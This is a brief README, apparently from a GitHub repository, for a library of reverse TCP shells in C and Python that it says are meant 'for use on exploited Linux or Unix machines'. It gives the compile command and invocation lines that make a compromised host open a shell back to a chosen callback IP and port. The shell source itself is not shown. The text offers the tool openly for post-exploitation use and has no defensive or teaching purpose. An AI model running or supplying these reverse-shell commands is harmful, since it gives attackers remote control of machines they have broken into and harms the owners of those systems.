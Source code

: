 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited Linux or Unix machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
  
